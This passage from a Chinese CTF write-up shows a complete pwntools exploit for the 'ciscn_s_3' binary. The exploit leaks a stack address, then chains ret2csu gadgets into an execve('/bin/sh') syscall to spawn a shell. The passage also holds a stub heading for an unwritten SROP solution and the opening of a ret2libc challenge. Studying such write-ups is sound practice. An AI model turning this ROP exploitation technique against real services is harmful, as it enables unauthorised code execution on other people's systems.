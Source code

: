```
from pwn import *

mov_rax_59_ret = 0x4004e2
pop_rdi_ret = 0x4005a3
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40059a
mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12_add_2rbx = 0x400580
vuln_addr = 0x4004ed
syscall = 0x400517

payload1 = b'A'*0x10 + p64(vuln_addr)

p = process('./ciscn_s_3')
p.sendline(payload1)
p.recv(0x20)
sh_addr = u64(p.recv(8))-0x118
payload2 = b'/bin/sh'*2 + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0) + p64(0) + p64(sh_addr+0x50) + p64(0) + p64(0) + p64(0)
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12_add_2rbx)
payload2 += p64(mov_rax_59_ret) + p64(pop_rdi_ret) + p64(sh_addr)
payload2 += p64(syscall)
p.sendline(payload2)
p.interactive() 
```

运行脚本即可getshell

![image.png](img/72c8bbeb840bf94370d0f83d615166a6.png)

## 解法2：SROP

> 咕了，下次再写

# 0x018.铁人三项(第五赛区)_2018_rop - ret2libc

惯例的`checksec`，只开了NX

![](img/24f60eff67b7d6b0f77c78cf6622d7d8.png)
